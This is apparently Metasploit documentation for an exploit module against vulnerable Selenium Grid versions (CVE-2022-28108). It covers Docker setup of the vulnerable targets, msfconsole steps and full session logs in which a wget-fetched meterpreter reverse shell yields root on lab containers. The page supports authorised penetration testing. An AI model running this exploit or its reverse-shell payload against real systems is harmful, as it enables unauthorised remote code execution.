 ## Vulnerable Application

Selenium Server (Grid) before 4.0.0-alpha-7 allows CSRF because it permits non-JSON content types
such as application/x-www-form-urlencoded, multipart/form-data, and text/plain.

The vulnerability affects:

    * Selenium Server (Grid) before 4.0.0-alpha-7

This module was successfully tested on:

    * selenium/standalone-firefox:3.141.59 installed with Docker on Ubuntu 24.04
    * selenium/standalone-firefox:4.0.0-alpha-6-20200730 installed with Docker on Ubuntu 24.04


### Installation

1. `docker pull selenium/standalone-firefox:3.141.59`

2. `docker run -d -p 4444:4444 -p 7900:7900 --shm-size="2g" selenium/standalone-firefox:3.141.59`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
### selenium/standalone-firefox:3.141.59 installed with Docker on Ubuntu 24.04
```
msf6 > use exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > options

Module options (exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    4444             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      vryeXadl         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4445 ForceExploit=true
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 3.141.59 detected, which is vulnerable
[+] Deleted /GsDqXNZBxmLv
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:44250) at 2024-12-29 11:53:58 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### selenium/standalone-firefox:4.0.0-alpha-6-20200730 installed with Docker on Ubuntu 24.04
```
msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4446 ForceExploit=true
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. ForceExploit is enabled, proceeding with exploitation.
[+] Deleted /poYThRAaVWqQ
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.16:59596) at 2024-12-29 11:56:25 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : Ubuntu 18.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
